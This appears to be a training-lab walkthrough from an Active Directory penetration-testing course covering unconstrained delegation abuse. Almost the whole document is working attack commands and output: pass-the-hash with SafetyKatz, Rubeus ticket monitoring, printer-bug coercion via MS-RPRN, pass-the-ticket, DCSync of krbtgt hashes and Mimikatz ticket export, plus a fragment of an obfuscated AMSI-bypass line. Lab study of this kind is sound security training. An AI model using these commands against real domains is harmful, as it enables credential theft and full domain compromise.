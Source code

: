 ```yaml
---
description: >-
  Task - Find a server in the dcorp domain where Unconstrained Delegation is
  enabled. Compromise the server and escalate to Domain Admin privileges.
  Escalate to Enterprise Admins privileges.
---
```


# Obj 15 Unconstrained Delegation

{% hint style="success" %}
We first need to find a server that has unconstrained delegation enabled
{% endhint %}

### Find server with Unconstrained Delegation Enabled

```
PS C:\AD\Tools> Get-DomainComputer -Unconstrained | select -ExpandProperty name
```

{% hint style="info" %}
Since the prerequisite for elevation using Unconstrained delegation is having admin access to the machine, we need to compromise a user which has local admin access on appsrv. Recall that we extracted secrets of appadmin, srvadmin and websvc from dcorp-adminsrv. Let’s check if anyone of them have local admin privileges on dcorp-appsrv.
{% endhint %}

### Try one of the servers to see if we have local admin privileges

```
C:\WINDOWS\system32> C:\AD\Tools\SafetyKatz.exe "sekurlsa::pth /user:appadmin 
/domain:dollarcorp.moneycorp.local 
/aes256:68f08715061e4d0790e71b1245bf20b023d08822d2df85bff50a0e8136ffe4cb
/run:cmd.exe" "exit"
```

#### In the new process run the following commands to see if we have local admin access

```
C:\Windows\system32> C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
PS C:\Windows\system32> . C:\AD\Tools\Find-PSRemotingLocalAdminAccess.ps1
PS C:\Windows\system32> Find-PSRemotingLocalAdminAccess
```

#### We have local admin access on appsrv so we can copy Rubeus over&#x20;

```
C:\Windows\system32>echo F | xcopy C:\AD\Tools\Rubeus.exe \\dcorpappsrv\C$\Users\Public\Rubeus.exe /Y
```

### We are going to run Rubeus in listener mode on appsrv

```
C:\Windows\system32>winrs -r:dcorp-appsrv cmd
C:\Users\appadmin>C:\Users\Public\Rubeus.exe monitor /targetuser:DCORP-DC$ 
/interval:5 /nowrap
```

#### From student/host vm let's use MS-RPRN to force Authentication from dcorp-dc

```
C:\AD\Tools>C:\AD\Tools\MS-RPRN.exe \\dcorp-dc.dollarcorp.moneycorp.local 
\\dcorp-appsrv.dollarcorp.moneycorp.local
```

#### We should start seeing some out put on our Rubeus listener now

```
User : DCORP-DC$@DOLLARCORP.MONEYCORP.LOCAL
 StartTime : 11/17/2021 12:27:42 AM
 EndTime : 11/17/2021 10:27:42 AM
 RenewTill : 11/21/2021 5:55:24 AM
 Flags : name_canonicalize, pre_authent, renewable, 
forwarded, forwardable
 Base64EncodedTicket :
 doIFxTCC..
```

#### Copy the base64 encoded ticket and use it with Rubeus on student VM. Run the below command from an elevated shell as the SafetyKatz command that we will use for DCSync needs to be run from an elevated process

```
>C:\AD\Tools\Rubeus.exe ptt /ticket:doIFx…
```

### Now we can run a DCSync attack from the new process

```
C:\Windows\system32>C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync 
/user:dcorp\krbtgt" "exit"
```

## <mark style="color:orange;">- Part 2 Elevate to Enterprise Admins -</mark>

{% hint style="info" %}
To get Enterprise Admin privileges, we need to force authentication from mcorp-dc. Run the below command to listen for mcorp-dc$ tickets on dcorp-appsrv
{% endhint %}

#### Let's start a session on appsrv and setup a Rubeus listener

```
C:\Windows\system32>winrs -r:dcorp-appsrv cmd

C:\Users\appadmin>C:\Users\Public\Rubeus.exe monitor /targetuser:MCORP-DC$ 
/interval:5 /nowrap
```

#### Lets' run MS-RPRN on our host vm to trigger a response from mcorp-dc to dcorp-appsrv

```
C:\AD\Tools>C:\AD\Tools\MS-RPRN.exe \\mcorp-dc.moneycorp.local \\dcorpappsrv.dollarcorp.moneycorp.local
```

#### We should get a response on our Rubeus listener

```
[*] 11/17/2021 3:36:16 PM UTC - Found new TGT:
 User : MCORP-DC$@MONEYCORP.LOCAL
 StartTime : 11/17/2021 12:40:19 AM
 EndTime : 11/17/2021 10:40:19 AM
 RenewTill : 11/21/2021 6:06:24 AM
 Flags : name_canonicalize, pre_authent, renewable, 
forwarded, forwardable
 Base64EncodedTicket :
 doIFVjCCBV
```

{% hint style="info" %}
As previously, copy the base64 encoded ticket and use it with Rubeus on student VM. Run the below command from an elevated shell as the SafetyKatz command that we will use for DCSync needs to be run from an elevated process:
{% endhint %}

#### Run Rubeus to create a new process

```
C:\Windows\System32>C:\AD\Tools\Rubeus.exe ptt /ticket:doIFx…
```

#### Now we can run the DCSync attack from the new process

```
C:\Windows\system32>C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync 
/user:mcorp\krbtgt /domain:moneycorp.local" "exit"
```

### We are now Enterprise Admins!

## - Part 3 Check the server if there is an existing DA ticket

### Let's start a new invishell on our host vm

```
$sess = New-PSSession -ComputerName dcorpappsrv.dollarcorp.moneycorp.local
PS C:\AD\Tools> Enter-PSSession -Session $sess
[dcorp-appsrv]: PS C:\Users\appadmin\Documents> S`eT-It`em ( 'V'+'aR' +
[dcorp-appsrv]: PS C:\Users\appadmin\Documents> exit

```

#### Now let's get Mimikatz on the session and then go back into the session

```
PS C:\Windows\system32> Invoke-Command -FilePath C:\AD\Tools\InvokeMimikatz.ps1 -Session $sess
PS C:\Windows\system32> Enter-PSSession -Session $sess
```

#### Create a userX directory where X is your userId to avoid overwriting tickets of other users

```
[dcorp-appsrv]: PS C:\Users\appadmin\Documents> mkdir userX
[dcorp-appsrv]: PS C:\Users\appadmin\Documents> cd .\userX
```

#### Now let's invoke Mimikatz to dump the tickets

```
[dcorp-appsrv]: PS C:\Users\appadmin\Documents\userX> Invoke-Mimikatz -
Command '"sekurlsa::tickets /export"'
```

#### Now we can grep through the tickets to see which one we want to use.

```
[dcorp-appsrv.dollarcorp.moneycorp.local]: PS C:\Users\appadmin\Documents\userX> ls | select name
```

#### Once we find a ticket to reuse we can inject it into lsass to get DA privs

```
[dcorp-appsrv.dollarcorp.moneycorp.local]: PS C:\Users\appadmin\Documents\user1> Invoke-Mimikatz -Command '"kerberos::ptt C:\Users\appadmin\Documents\userX\[0;543c65]-2-0-60a10000-Administrator@krbtgt-DOLLARCORP.MONEYCORP.LOCAL.kirbi"'
```

#### Now we can check to see if it worked

```
[dcorp-appsrv.dollarcorp.moneycorp.local]:PS C:\Users\appadmin\Documents\userX> Invoke-Command -ScriptBlock{whoami;hostname} -computername dcorp-dc
dcorp\Administrator
dcorp-dc
```
